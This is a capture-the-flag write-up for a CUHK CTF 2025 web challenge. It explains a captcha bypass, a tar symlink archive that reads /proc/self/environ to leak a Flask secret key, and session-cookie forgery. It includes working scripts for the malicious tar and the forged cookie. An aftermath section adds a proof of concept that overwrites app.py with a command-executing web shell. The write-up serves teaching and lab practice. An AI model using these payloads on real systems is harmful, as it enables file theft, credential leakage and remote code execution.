




# Organic Waste Organization - Writeup

## Files related to solving the challenge are in the [solve](./solve) folder

## Please open an issue if you have any questions. It will be added to the respective Q&A section.

Author: S006_Destroy Lai Lai's Machine (aka DLLM)

## Situation

**Organic Waste Organization**

Author: chemistrying ★★★★

Sniff sniff... Organic Waste Organization (OWO) smells file wastes in your recycle bin (`• ω •́ ) They now invite you to dump all file wastes to their compost bin!

`chall.25.cuhkctf.org:25021`

Attachments:\
`Organic Waste Organization.zip`\
│ㅤㅤ[docker-compose.yaml](./docker-compose.yaml)\
│\
├─── [db](./db)\
│ㅤㅤㅤㅤ[`Dockerfile`](./db/Dockerfile)\
│ㅤㅤㅤㅤ[`init.sql`](./db/init.sql)\
│\
└─── [server](./server)\
ㅤㅤ│ㅤㅤ[`app.py`](./server/app.py)\
ㅤㅤ│ㅤㅤ[`Dockerfile`](./server/Dockerfile)\
ㅤㅤ│ㅤㅤ[`FreeMono.ttf`](./server/FreeMono.tff)\
ㅤㅤ│ㅤㅤ[`requirements.txt`](./server/requirements.txt)\
ㅤㅤ│ㅤㅤ[`run_server.sh`](./server/run_server.sh)\
ㅤㅤ│\
ㅤㅤ└─── [templates](./server/templates)\
ㅤㅤㅤㅤㅤㅤㅤ[`base.html`](./server/templates/base.html)\
ㅤㅤㅤㅤㅤㅤㅤ[`index.html`](./server/templates/index.html)\
ㅤㅤㅤㅤㅤㅤㅤ[`uploads.html`](./server/templates/uploads.html)

## The Beginning

Lets take a look at what is in [docker-compose.yaml](./docker-compose.yaml) and the DockerFiles first

```dockerfile
FROM postgres:latest

COPY init.sql /docker-entrypoint-initdb.d/
```

```dockerfile
FROM python:3.12-alpine

WORKDIR /app
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY . .
RUN chown -R nobody:nobody /app

USER nobody
ENV PORT=5000
CMD ["/bin/sh", "run_server.sh"]
```

```yaml
services:
  owo-db:
    build:
      context: ./db
    environment:
      POSTGRES_USER: postgres
      POSTGRES_PASSWORD: postgres
      POSTGRES_DB: database
  owo-server:
    build:
      context: ./server
    ports:
      - "25021:5000"
    environment:
      DB_HOST: owo-db
      DB_NAME: database
      DB_USER: postgres
      DB_PASSWORD: postgres
      DB_PORT: 5432
    depends_on:
      - owo-db
```

- [**Database**](./db/Dockerfile): runs Postgres with default creds in `owo-db`.
- [**Server**](./server/Dockerfile): runs Python 3.12 Alpine with Flask inside `owo-server`.
- **Backend** connects to Postgres over internal network.

The server app is run as `nobody`. Which had all access to `/app` and everything under it *(Not relevant to the solution but more on it in the [Aftermath-Incident](#aftermath---incident))*

## Where Flag

Looking into [app.py](./server/app.py), we can see an endpoint called `api/flag`, I just directly go there and saw\
`cuhk24ctf{Did_U_BURP_to_GET_FLAG_frum_gammAAAAAAAAAAAAAAAAAAAAAAAAAmon_asdflk;dkjfkl;j}`

I tried to submit it (:skull:) and obviously it is the **wrong** flag (its actually the flag from gammamon (?) web chal from cuhkctf 24, so its obviously a fake flag here)

By looking into [init.sql](./db/init.sql)

```sql
...
CREATE TABLE users (
    username TEXT PRIMARY KEY,
    password TEXT NOT NULL,
    flag TEXT DEFAULT 'cuhk24ctf{Did_U_BURP_to_GET_FLAG_frum_gammAAAAAAAAAAAAAAAAAAAAAAAAAmon_asdflk;dkjfkl;j}'
);
...
INSERT INTO users (username, password, flag) VALUES ('OwO', 'YouCanNeverBypassMeUwU', 'cuhk25ctf{this_is_test_flag_1}');
```

We can see the **real flag** is stored under the username **`OwO`**, and the flag attribute is **default** to the **fake flag**. Which means that the real flag can *only* be obtained when I access `/api/flag` as user `OwO`

Looking deeper

```py
@app.get("/api/flag")
def flag():
    if session.get("user") is None:
        return "Unauthorized.", 401

    username = session["user"]
    conn = connect_to_postgres()
    cursor = conn.cursor()
    cursor.execute(
        "SELECT flag FROM users WHERE username = %s",
        (username,),
    )
    result = cursor.fetchone()
    cursor.close()
    if result:
        return result[0], 200
    return "Flag not found.", 404
```

This endpoint is **invulnerable** to SQL injection (using parametrized queries), so I can't just register a username as a SQL injection prompt.\
Looking at other places that involves in SQL shows that the entire app blocks SQL injections quite well.

So, lets look for other endpoints that involves in **changing the server's state**, which are typically entry points we can dig deeper into.

Talking about it, there is also an endpoint called `/api/uploads` that allows us to upload files.

```py
@app.post("/api/upload")
def upload():
    if session.get("user") is None:
        return "Unauthorized.", 401
    file = request.files.get("file")
    if not file:
        return "No files are found.", 400

    ... # verify captcha

    ... # remove outdated uploaded files

    if tarfile.is_tarfile(file):
        with tarfile.open(fileobj=file, mode="r:*") as tar:
            upload_id = secrets.token_hex(16)
            extract_dir = os.path.join("uploads", upload_id)
            shutil.rmtree(extract_dir, ignore_errors=True)
            os.makedirs(extract_dir, exist_ok=True)

            for child in tar.getnames():
                target_path = os.path.abspath(os.path.join(extract_dir, child))

                if not target_path.startswith(os.path.abspath(extract_dir) + os.sep):
                    return "Invalid file path", 400

            tar.extractall(extract_dir)
            conn = connect_to_postgres()
            cursor = conn.cursor()
            cursor.execute(
                "INSERT INTO uploads (id, owned_by) VALUES (%s, %s)",
                (upload_id, session["user"]),
            )
            conn.commit()
            cursor.close()
        return upload_id, 200
    return "Only .tar files are allowed.", 400
```

We can **upload a tarball** to this endpoint, and it will **extract** the tarball and **store** the files in the `uploads` directory.

So why not going to the main page and try to upload some stuff the legit way first?

## CAPTCHA

After registering an account and logging into it, we can see the main upload page, as well as an obvious captcha.



**This CAPTCHA is wild!!! :skull::skull:**

According to [index.html](./server/templates/index.html)

```html
...
<script>
  ...
function updateUI() {
      ...
      captchaId = `owo_${Math.random().toString(36).substring(2, 15)}`;
      document.getElementById('captcha-image').src = `/api/captcha?name=${captchaId}&length=100`;
      ...
  }
  ...
</script>
```

and captcha API endpoint [app.py](./server/app.py)

```py
@app.get("/api/captcha")
def captcha():
    name = request.args.get("name")
    length = request.args.get("length")
    if (
        name is None
        or length is None
        or not length.isdigit()
        or int(length) <= 0
        or int(length) > 1000
    ):
        return "Missing or incorrect parameters", 400
    length = int(length)

    image = Image.new("RGB", (200, 80), (255, 255, 255))
    draw = ImageDraw.Draw(image)
    font = ImageFont.truetype("FreeMono.ttf", 150)
    alphabet = string.ascii_letters + string.digits
    captcha = "".join(secrets.choice(alphabet) for _ in range(length))

    conn = connect_to_postgres()
    clear_old_captchas(conn)
    cursor = conn.cursor()
    cursor.execute("INSERT INTO captchas (id, captcha) VALUES (%s, %s) ON CONFLICT (id) DO UPDATE SET captcha = EXCLUDED.captcha;",(name,captcha,),)
    conn.commit()
    cursor.close()

    for character in captcha:
        draw.text(
            (100, 40),
            character,
            (0, 0, 0),
            font=font,
            spacing=0,
            align="center",
            anchor="mm",
        )
    blurred_image = image.filter(ImageFilter.GaussianBlur(radius=5))
    draw2 = ImageDraw.Draw(blurred_image)
    font = ImageFont.truetype("FreeMono.ttf", 100)
    draw2.text(
        (100, 40),
        "OWO",
        (0, 200, 50),
        font=font,
        spacing=0,
        align="center",
        anchor="mm",
    )
    byte_arr = io.BytesIO()
    blurred_image.save(byte_arr, format="PNG")
    byte_arr.seek(0)
    return send_file(byte_arr, mimetype="image/png")
```

- By default, it generates a **100-character captcha image**, stacking the text all cramped together.
- Then, applies a heavy **Gaussian blur** making it look like mush.
- Finally, it slaps a big green *"OWO" watermark** on top, obscuring even more.
- Result? The default captcha is basically **impossible to solve**, not by human, nor OCR.

### Captcha bypass

Surprise! According to the html snipper above, you too can fetch a captcha yourself with:

```url
GET /api/captcha?name={id}&length={length}
```

And according to app.py, the minimum length is 1 character, so we can just request a length=1 captcha:

```url
GET /api/captcha?name=bruh&length=1
```


- A **1-character captcha** is ridiculously easier to solve. (ie, for this one its obviously `L`)
- Blur and watermark don’t hide a single letter nearly as much.
- Plus, you can reuse the same captcha ID (in this case `bruh`), so only have to solve it once and reuse for the next 10 minutes.

After making an easy version of the captcha, we can also **intercept** the upload request, **change the captcha ID** to `bruh`, and **forward** the modified request.\
Which should tell the server to verify against this 1-character captcha instead of the 100-character one, and give us a go.



This is technically not a full captcha bypass, but it at least effectively turns the impossible challenge into a breeze, letting us move on with the exploit.



And indeed, we have bypassed the impossible captcha!

## Vuln

Now that we bypassed the impossible captcha, we can see what vulns we can do to the file upload.

The app extracts the uploaded tarball to a random folder inside `/uploads`, but is there anything special about tarballs?

Turns out, tarballs **stores the path informations** of the files, so can we use names with `../` to achieve path traverse?

Well... no. The app checks if the target path is inside the upload dir, and if not, returns a 400. This effectively stops this vuln.

But [**symlink entries in tar**](https://nvd.nist.gov/vuln/detail/CVE-2025-59343) get insufficient scrutiny.

- Malicious archive can create a **symlink** inside uploads dir pointing to **any existing files**.
- After server-side extracting, we can use the symlink file to download any file off the server.

### Malicious tar generator

By using python's `tarfile`, we can specifically craft an empty file inside the archive, with a symlink attribute pointing to wherever we like.

(the following script is also @ [bad_tar.py](./solve/bad_tar.py))

```python
import tarfile

def exploit(tar_path, target_path, symlink_name=None):
    if symlink_name is None:
        symlink_name = target_path.rsplit('/')[-1]
        if not symlink_name.endswith('.txt'): symlink_name += '.txt'
    with tarfile.open(tar_path, "w") as tar:
        symlink = tarfile.TarInfo(name=symlink_name)
        symlink.type = tarfile.SYMTYPE
        symlink.linkname = target_path
        tar.addfile(symlink)
    print(f"generated symlink tar @ {tar_path} with {symlink_name} -> {target_path}")
```

### Tar get

However, which file should we read? Since we have no access to the directories outside the `/app`, and there's nothing interesting inside the `/app`, we would need to read a useful file with **known path**.

First, I tried to access the database directly, ie `exploit("payload.tar", "/var/postgresql/18/docker/base/db.db")`, but after some research this isn't possible, as the database name is not `db.db`, but `{OID}.db` with OID being an inconsistent number we cannot predict. So, we have to put our eyes on something else.

If we cannot log in as `OwO` through its password, another entry point would be the session cookie. If we somehow got our hands on flask's **secret key**, we can forge a **valid session cookie** as the user `OwO`, without knowing any credentials other than the username. And voilà, look what we have in [app.py](./app.py)

```py
app.secret_key = os.environ.get("SECRET_KEY")
```

We can get the secret key by reading the environ variables, which are accessible through the `/proc/self/environ` file, and the path is consistent!

We can then craft our payload through `exploit("payload.tar", "/proc/self/environ")`, upload it on the server, and download [`environ.txt`](./solve/environ.txt).



```bash
HOSTNAME=0b55198b56ff DB_PORT=5432 SECRET_KEY=4DB19C59E8999B612CBF57CBE0E841AB SHLVL=1 PORT=5000 HOME=/ DB_NAME=database GPG_KEY=7169605F62C751356D054A26A821E680E5FA6305 PYTHON_SHA256=c30bb24b7f1e9a19b11b55a546434f74e739bb4c271a3e3a80ff4380d49f7adb PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 PYTHON_VERSION=3.12.11 DB_PASSWORD=f96367a5c8b825545dd510eae6524e809213cfd2c4b45bd609210e9ddb88528a PWD=/app DB_HOST=owo-db DB_USER=postgres 
```

Now we got the secret key, we might as well write a [small flask application](./solve/bruh_flask.py) using that secret key to forge `OwO`'s session cookie.

```py
from flask import Flask, request, session
app = Flask(__name__)
app.secret_key = "4DB19C59E8999B612CBF57CBE0E841AB"

@app.get("/")
def login():
    session["user"] = "OwO"
    return request.cookies.get("session"), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

And we can get the session cookie `eyJ1c2VyIjoiT3dPIn0.aNwXyw.PdsaATJgn9i6_bMpc9PW6Aw376w`. Going to `/api/flag` with this cookie and we can get the

### Flag

`cuhk25ctf{OwO_Can_5me11_Stink_Use_621_Rule_1n_Ur_Hackin_9rind_UwU}`

## Aftermath

This was a neat challenge combining server-side path traversal, tar symlink attacks, session cookie forging, and check bypassing from exposed API.

Lesson learnt:

- **Avoid exposing sensitive API endpoints** (ie captcha - security check feature -> vuln), and even if it's unavoidable, refrain from permitting **sensitive client-side parameters** (ie captcha length)
- **Never trust client-uploaded files**, especially those that would go though execution (ie tar extract). Even if it's unavoidable, **keep strict sanitizing** and make the checks **up-to-date with new relevant RCEs**

## Aftermath - Incident

During the CTF, There was a **serious unintended RCE** solution for the challenge due to a **docker misconfiguration**.

Remember this line?

```dockerfile
RUN chown -R nobody:nobody /app
```

Because the web server ran as user **`nobody`** with ownership over **`/app`** (containing the source files), unlike **`/proc/self/environ`**, it was possible to **not only read** anything under `/app`, but also **overwrite** them.

The issue is that under `/app` lies the source code **`app.py`** as well. By setting a symlink to the source file (`app.py`) and **extracting another file** through the symlink, it is possible to **overwrite the source file via the symlink**. During testing, overwriting the source file immediately **crashes the entire server**. This might be due to gunicorn loading the script again when a new worker is launched.

(This is a PoC concept flow for the RCE exploit tar)

```py
import tarfile
import io

def create_overwrite_tar(tar_path, symlink_name, symlink_target, payload_code):
    with tarfile.open(tar_path, "w") as tar:
        symlink_info = tarfile.TarInfo(name=symlink_name)
        symlink_info.type = tarfile.SYMTYPE
        symlink_info.linkname = symlink_target
        tar.addfile(symlink_info)

        payload_bytes = payload_code.encode()
        file_info = tarfile.TarInfo(name=symlink_name)
        file_info.size = len(payload_bytes)
        tar.addfile(file_info, io.BytesIO(payload_bytes))

    print(f"Created overwrite tarball '{tar_path}' with symlink '{symlink_name}' -> '{symlink_target}'")

symlink_name = 'app'

target_file = '/app/app.py'

# Code to overwrite app.py with (example: change the index endpoint to a shell command executor)
payload = '''
from flask import Flask, request
import os
app = Flask(__name__)

@app.route("/")
def RCE():
    response = os.popen(request.args.get("cmd"))
    return response, 200
'''

create_overwrite_tar("overwrite_payload.tar", symlink_name, target_file, payload)
```

Of course, being able to overwrite a script and having the script run directly means a **solve by RCE**. But that means **the server will be down** when someone exploits this without a very proper payload, and no one else will be able to solve the challenge. Even after the server is back up, the same payload can be used to bring it down again, and that is a **big deal**.

Good news, the organizers noticed this issue before anything big happened, and they fixed it by replacing the above line with

```dockerfile
RUN mkdir -m a=rwx uploads
```

So that `nobody` user can **only** write to the `uploads` folder, stopping the problem.

The reason why they decided to patch this technically valid solution other than its potential to break the challenge and affect others, is that this vulnerability requires the knowledge of tar symlink vuln.\
But before finding a way to achieve RCE by overwriting the **`app.py`**, it would be easier to just **leak the `environ`**, so patching this shouldn't affect the challenge too much.

### Aftermath - Aftermath

(Lmao first time had an aftermath in aftermath)

From this incident, it's clear that **permissions granted** to a user, especially those that are implicitly able to be used by anyone else (ie `nobody`), **should be carefully considered**.

This incident is a good reminder to always be careful about **strictly granting permissions** according to what they are intended to do, and not give them too wide a scope.  
Cause as seen here, just a little bit wider scope could lead from an **AFR vulnerability to an RCE vulnerability**.

A little bit of side story, I actually struggled so long to find out I can read `/proc/self/environ`, cause I never knew that file existed until this challenge (thanks AI).\
So technically, if this incident were not discovered and patched by the organizers, maybe I would literally attempt this method and *ruin everyone's life on accident*.

### Aftermath - Q&A checkpoint

Q - why are there no Q&A checkpoints?\
A - I think this writeup suits a process-flow style over Q&A styles\
(def not because I cant think of any Q&A for sections)
